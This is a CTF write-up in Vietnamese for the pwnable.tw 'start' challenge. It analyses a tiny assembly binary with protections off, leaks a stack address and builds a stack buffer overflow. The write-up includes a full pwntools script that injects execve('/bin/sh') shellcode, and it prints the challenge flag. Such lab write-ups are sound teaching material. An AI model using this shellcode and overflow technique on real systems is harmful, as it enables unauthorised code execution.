





**1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra:



Ta thấy là file ELF 32bit. Ta có source như sau:

```
=> 0x08048060 <+0>:     push   esp
   0x08048061 <+1>:     push   0x804809d
   0x08048066 <+6>:     xor    eax,eax
   0x08048068 <+8>:     xor    ebx,ebx
   0x0804806a <+10>:    xor    ecx,ecx
   0x0804806c <+12>:    xor    edx,edx
   0x0804806e <+14>:    push   0x3a465443
   0x08048073 <+19>:    push   0x20656874
   0x08048078 <+24>:    push   0x20747261
   0x0804807d <+29>:    push   0x74732073
   0x08048082 <+34>:    push   0x2774654c
   0x08048087 <+39>:    mov    ecx,esp
   0x08048089 <+41>:    mov    dl,0x14
   0x0804808b <+43>:    mov    bl,0x1
   0x0804808d <+45>:    mov    al,0x4
   0x0804808f <+47>:    int    0x80
   0x08048091 <+49>:    xor    ebx,ebx
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3
   0x08048097 <+55>:    int    0x80
   0x08048099 <+57>:    add    esp,0x14
   0x0804809c <+60>:    ret
```

Ta thấy chương trình được viết bằng mã assembly

Đầu tiên chương trình in ra chuỗi: "Let's start the CTF:". Sau đó chương trình sử dụng sys_read cho phép nhập vào 0x3c ký tự. Sau đó cộng 0x14 vào esp và kết thúc chương trình

Dùng lệnh 'checksec' để kiểm tra ta có như sau: 

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

Ta thấy các chức năng bảo vệ đang tắt nên có thể khai thác qua lỗi bof hay thực thi shellcode, ...

**2. Ý tưởng**

Vì có cộng 0x14 byte nên sẽ nhập thử 0x14 byte rác ký tự 'a' và nhập đại thì stack có dạng như sau:



Vậy sau khi cộng 0x14 cho esp thì sẽ pop địa chỉ chuỗi phía sau. Vậy nên có ý tưởng như sau

- Gửi payload gồm 14 byte và địa chỉ sys_write để in địa chỉ stack
- Gửi payload lần 2 gồm 14 byte rác và địa chỉ stack + 20 để lưu shellcode và shellcode để thực thi

**3. Khai thác**

Ta có địa chỉ để sys_write: '0x08048087'. Tạo payload và gửi để xem đã leak được địa chỉ stack hay chưa

```
sys_write = 0x08048087
payload = b'a'*0x14 + p32(sys_write)
r.sendlineafter(b"Let's start the CTF:", payload)
```

Ta được kết quả như sau:



Vậy địa chỉ stack đã được leak ra. Tiếp theo chỉ cần lưu lại địa chỉ stack đó

```leak_stack = u32(r.recv()[:4])```

Tiếp theo đi tạo shellcode để ghi vào. Tìm kiếm được chuỗi shellcode như sau

```
shellcode =b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Việc còn lại chỉ tạo payload thứ 2 và thực thi

```payload = b'a'*0x14 + p32(leak_stack + 0x14) + shellcode
r.send(payload)
```

Ta check return sau khi gửi payload thứ 2 thì thấy như sau:



Vậy chương trình đã return vào shellcode mình đã chèn vào

Ta có script như sau:

```
from pwn import *

r = process('./start')

sys_write = 0x08048087
#input()
payload = b'a'*0x14 + p32(sys_write)
r.sendafter(b"Let's start the CTF:", payload)

leak_stack = u32(r.recv(1024)[0:4])
print("Stack: ", hex(leak_stack))
shellcode =b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
payload = b'a'*0x14 + p32(leak_stack + 0x14) + shellcode
r.send(payload)

r.interactive()
```

**4. Lấy flag**



`Flag: FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}`